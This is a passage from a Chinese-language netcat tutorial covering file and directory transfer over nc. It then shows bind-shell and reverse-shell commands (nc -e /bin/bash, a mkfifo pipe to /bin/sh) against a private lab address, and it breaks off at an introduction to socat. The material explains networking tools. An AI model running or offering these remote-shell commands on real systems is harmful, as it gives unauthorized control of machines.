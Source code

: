 使用shell的输入输出重定向传输文件

```shell
nc -l 8888 < server.txt #pc1
nc -n 192.168.56.102 8888 > server.txt #pc2
```

其中-n选项用于跳过dns解析



#### 1.2.4 传输目录

---

使用tar命令压缩某一目录，将得到的文件数据以管道的形式发送给nc进程在另一个主机上使用nc命令接受数据使用管道发送给tar命令解压

```shell
tar -cvf - iptables | nc -l 8888 iptables #pc1
nc 192.168.56.102 8888 | tar -xvf - # pc2
```

不过传输目录与文件使用专用的命令比如scp更好

#### 1.2.5 打开一个shell

---

-e参数可以让nc在接收到连接后执行指定命令

```shell
nc -l 8888 -e "/bin/bash -i" #pc1
nc 192.168.56.102 8888		#pc2
```

这样，在pc2连接到pc1时可以得到一个pc1的shell运行环境，在pc1上执行shell命令

假设服务端nc不支持-e选项，那我们可以使用mkfifo命名管道来处理shell

```shell
mkfifo /tmp/temp_fifo # 在服务端创建命名管道
cat /tmp/temp_fifo | /bin/sh -i 2>&1 | nc -l 8888 > /tmp/temp_fifo 
```

管道数据用于输入输出，当cat遇到fifo文件末尾时会阻塞等待数据，temp_fifo文件中存放了nc接收过来的数据，即客户端发送过来的命令

```shell
nc 192.168.56.102 8888
```

也可以在服务端获取一个客户端的shell，称为反向shell

```shell
nc -l 8888 #pc1
nc 192.168.56.102 8888 -e /bin/bash # pc2
```
## 2. socat简介

socat也是用于在两个socket通信端点建立连接的工具，基本用法如下

```
socat [options] <address> <address>
```
